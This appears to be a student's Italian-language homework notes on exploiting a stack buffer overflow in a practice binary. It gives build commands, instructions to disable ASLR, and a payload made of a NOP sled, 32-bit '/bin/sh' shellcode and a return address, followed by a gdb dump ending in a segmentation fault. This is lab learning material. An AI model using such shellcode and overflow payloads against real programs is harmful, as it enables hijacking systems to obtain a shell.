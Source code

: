 ## FILE PER Homework di sicurezza informatica

fatto per quanto riguarda il file assembly
 
 
compilare con 

```
nasm -f elf32  shellcode.asm 
ld -m elf_i386 shellcode.o -o shellcode
```

Remember to check with checksec the attributes of main.o and disable ASLR!

Guardo com'è strutturata la stack e becco l'indirizzo iniziale di stack
run $(python3 -c "print(b'A'*30)")
x/200xb $esp

L'indirizzo di inizio stack 0xbfffee50 (verrà poi scritto little-endian e aumentato leggermente per puntare alla nop sled)


```
run $(python -c "print('\x90'*53+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80'+'\x70\xee\xff\xbf')")
```


ERRORE su

```
(gdb) x/100xb $esp
0xbfffee50:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee58:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee60:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee68:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee70:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee78:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbfffee80:	0x90	0x90	0x90	0x90	0x90	0x31	0xc0	0x50
0xbfffee88:	0x68	0x2f	0x2f	0x73	0x68	0x68	0x2f	0x62
0xbfffee90:	0x69	0x6e	0x89	0xe3	0x31	0xc9	0x31	0xd2
0xbfffee98:	0xb0	0x0b	0xcd	0x80	0x70	0xee	0xff	0xbf
0xbfffeea0:	0x00	0xf1	0xff	0xbf	0x64	0xef	0xff	0xbf
0xbfffeea8:	0x70	0xef	0xff	0xbf	0xc1	0x84	0x04	0x08
0xbfffeeb0:	0xdc	0xd3	0xfb	0xb7
(gdb) n
Single stepping until exit from function oflow,
which has no line number information.
0xbfffee70 in ?? ()
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xbfffee95 in ?? ()
```

